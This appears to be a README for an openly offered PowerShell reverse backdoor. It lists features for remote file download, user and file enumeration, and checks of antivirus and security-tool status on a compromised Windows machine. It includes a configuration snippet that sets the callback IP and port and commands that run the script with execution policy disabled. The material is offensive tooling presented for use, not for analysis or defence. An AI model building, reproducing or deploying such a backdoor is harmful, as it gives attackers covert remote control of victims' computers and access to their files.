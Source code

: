 # powershell-backdoor
A simple Powershell Reverse Backdoor

# Features / To Do
## Features 
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed
## To Do 
* Find Writeable Directories
* Get Windows Update Status

# Setup
Find the class Backdoor, and change the following lines 
```powershell
class Backdoor {
  # Change this to the correct ip/port
  [string]$ipAddress = "127.0.0.1"
  [int]$port = 4444
```

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

